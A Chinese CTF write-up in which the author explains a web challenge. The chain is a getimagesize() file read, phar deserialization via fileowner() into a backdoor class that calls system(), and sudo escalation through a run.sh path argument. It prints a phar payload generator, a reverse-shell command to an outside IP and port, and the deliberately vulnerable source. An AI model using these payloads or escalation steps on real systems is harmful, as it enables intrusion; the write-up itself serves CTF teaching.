# 国城杯线下web出题思路分享-先知社区

> **来源**: https://xz.aliyun.com/news/16307  
> **文章ID**: 16307

---

线下出的题，这里来写一下wp和出题思路分享。

### 前言

其实这个考点是线上出题一直散发出来的考点然后组合起来的，但是其中一个考点和线上其他考点重合了，就没上，拉到线下来了。

### 出题思路

getimagesize()函数存在侧信道文件读取漏洞，fileowner()函数存在phar反序列化漏洞，最后加了一个提权。

后面发现题目环境有点问题，就稍微改了一下最开始定好那版的源码，但是其实考点是没变的。后面主要还是写原定考点的wp吧，源码我也一起放github上了，地址文末给。

### wp

#### 图片信息查看器（线下）

这是什么，这个回显有点意思

——————————

开题就是一个输入框，同样是信息收集，如下：  


后端是PHP，中间件是Apache。然后扫一下目录：  


没扫出什么东西，那么先看题，输入name，得到如下回显：



一个跳转功能，但是在这里是埋了一个重要的解题要素，Ctrl+U看源码获取如下内容：



这里提示了有class.php文件，但是直接访问是没有什么东西的。那么现在点击跳转来到挑战：



这里限制了只能上传那几种图片文件，所以不是打文件上传漏洞：  


那么现在来正常上传文件来尝试一下呢，上传成功：  


获取图片信息：



这里有两个显示，一个是文件所有者，一个是文件信息，关注过的师傅知道这里的33其实就是代表的www-data，但是这里还需要收集信息，结合题目描述，关注这个回显，猜测后端是由什么函数有处理这个图片，有过记录的师傅应该是知道的，`getimagesize()`函数，这个函数可以获取到图片信息，同时这个函数还存在侧信道攻击漏洞，所以这里是可以尝试读取文件的，如下尝试：



存在漏洞，所以现在是可以读取源码了，在前面收集到了class.php中有东西，读取一下：  


这里读取到了一个后门php类，简单整理如下：

```
<?php
class backdoor{
    public $cmd;
    function __destruct(){
        $cmd = $this->cmd;
        system($cmd);
    }
}

```

但是这里还没有找到利用方法的。继续读源码，前面提到了33回显的问题，现在还是来读chal13nge.php文件的源码，如下：



两个关键点，如图，这里是引入了class.php的，其次调用了fileowner()函数，这个函数是直接处理的传进来的图像路径的，并且这个函数是存在phar反序列化漏洞的，所以现在的思路基本就清晰了，可以直接上传一个phar文件然后再解析，直接打phar反序列化。执行过程如下：

生成phar文件：

```
<?php
class backdoor{
    public $cmd;
    function __destruct(){
        $cmd = $this->cmd;
        system($cmd);
    }
}

$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); 
$o = new backdoor();
$o -> cmd='ls / > 1.txt';
$phar->setMetadata($o); 
$phar->addFromString("test.txt", "test"); 

$phar->stopBuffering();
?>

```

生成后抓包改后缀上传：  


然后触发phar即可：



再访问1.txt，成功获取到命令执行的回显：  


还是直接弹shell：

```
<?php
class backdoor{
    public $cmd;
    function __destruct(){
        $cmd = $this->cmd;
        system($cmd);
    }
}


$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); 
$o = new backdoor();
$o -> cmd='bash -c "bash -i >& /dev/tcp/47.100.223.173/2333 0>&1"';
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>

```

和之前一样的操作：  


上传成功后监听端口，然后phar反序触发：



成功弹上shell。

然后就是拿flag，在根目录下看到了flag.sh文件：



内容为：



所以现在是需要提权。

find看一下suid权限：



看到sudo，看一下sudo -l：



看一下这个check.sh文件：  


这里使用了`${1}`来接收第一个参数，在`/tmp/rootscripts`还看到了两个目录：



里面两个都是存在一个run.sh文件，尝试一下给check.sh文件传参目录路径呢：



成功执行命令。

那么现在的提权思路是什么呢，首先现在的check.sh文件有sudo权限，所以要想怎么利用这个文件，一个很巧妙的思路，我们可以创建一个run.sh文件，然后再传入这个run.sh文件所在目录的路径，如下尝试：

* 在tmp目录下创建run.sh文件：

```
echo "ls /root" > run.sh
```



* 赋予sh文件可执行权限：



* 执行：



成功执行，然后改一下直接读flag即可：



成功得到flag。

————————

题目中改了几个点：

跳转页面源代码为：



也就是读这个文件，然后在chal13nge.php也加了一个提示读文件的信息：



所以还是打侧信道，读hI3t.php文件内容回显如下：



访问x@1.php文件即可：

```
<?php
highlight_file(__FILE__);
//以下是class.php文件内容：
class backdoor
{
    public $cmd;

    function __destruct()
    {
        $cmd = $this->cmd;
        system($cmd);
    }
}

class B
{
    public $name;

    function __construct($name)
    {
        $this->name = $name;
    }

    function greet()
    {
        echo "<h3>hello " . $this->name . "</h3><br>";
    }

    function __destruct()
    {
        echo "<a href='chal13nge.php' class='link-button'>欢迎来到挑战，点击挑战</a><br>";
        echo "<!--There's something in the hI3t.php-->";
    }
}
//主要文件内容部分源码：
//
//<?php
//error_reporting(0);
//include "class.php";
//
//if (isset($_POST['image_path'])) {
//    $image_path = $_POST['image_path'];
//    echo "The owner ID of the file is: ";
//    echo fileowner($image_path) . "<br><br>";
//    echo "文件信息如下：" . "<br>";
//    $m = getimagesize($image_path);
//    if ($m) {
//        echo "宽度: " . $m[0] . " 像素<br>";
//        echo "高度: " . $m[1] . " 像素<br>";
//        echo "类型: " . $m[2] . "<br>";
//        echo "HTML 属性: " . $m[3] . "<br>";
//        echo "MIME 类型: " . $m['mime'] . "<br>";
//    } else {
//        echo "无法获取图像信息，请确保文件为有效的图像格式。";
//    }
//}

```

就可以审出来打phar，最后还是之前的操作即可：

弹shell打提权，最后得到flag：



——————

题目源码地址：<https://github.com/Fupanc/My-CTF-Produce/tree/main>
